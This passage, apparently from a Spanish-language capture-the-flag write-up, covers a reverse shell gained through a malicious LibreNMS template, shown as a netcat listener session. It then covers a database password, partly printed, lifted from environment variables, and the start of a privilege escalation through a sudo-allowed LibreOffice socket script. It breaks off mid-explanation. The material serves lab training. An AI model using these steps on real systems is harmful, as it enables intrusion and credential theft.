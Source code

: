 Ahora, accediendo con el dominio correcto, sí me deja crear la plantilla maliciosa.
![Write-up Image](images/Screenshot_25.png)

Y ganamos acceso como `librenms`
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.230.190] 57972
bash: cannot set terminal process group (970): Inappropriate ioctl for device
bash: no job control in this shell
librenms@formulax:~$ 
```

Revisando las variables de entorno de la aplicación vemos lo siguiente
```shell
DB_USERNAME=kai_relay
DB_PASSWORD=mychemic...
```

Esta credencial es la del usuario `kai_relay`

# Privilege Escalation
```shell
kai_relay@formulax:~$ sudo -l
Matching Defaults entries for kai_relay on forumlax:
    env_reset, timestamp_timeout=0, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_reset, timestamp_timeout=0

User kai_relay may run the following commands on forumlax:
    (ALL) NOPASSWD: /usr/bin/office.sh
```

Podemos ejecutar como cualquier usuario, root incluido, el script `/usr/bin/office.sh`

Analizando este script
```shell
kai_relay@formulax:~$ cat /usr/bin/office.sh
#!/bin/bash
/usr/bin/soffice --calc --accept="socket,host=localhost,port=2002;urp;" --norestore --nologo --nodefault --headless
```

- `--calc`: Esta opción abre la aplicación de hojas de cálculo (Calc) de LibreOffice o OpenOffice.
    
- `--accept="socket,host=localhost,port=2002;urp;"`: Esta opción permite que LibreOffice acepte conexiones desde un cliente a través de un socket. En este caso, el socket está configurado para escuchar en el host `localhost` y el puerto `2002`. `urp` se refiere al protocolo Universal Remote Protocol de LibreOffice, que permite la comunicación entre clientes y la instancia de LibreOffice.
    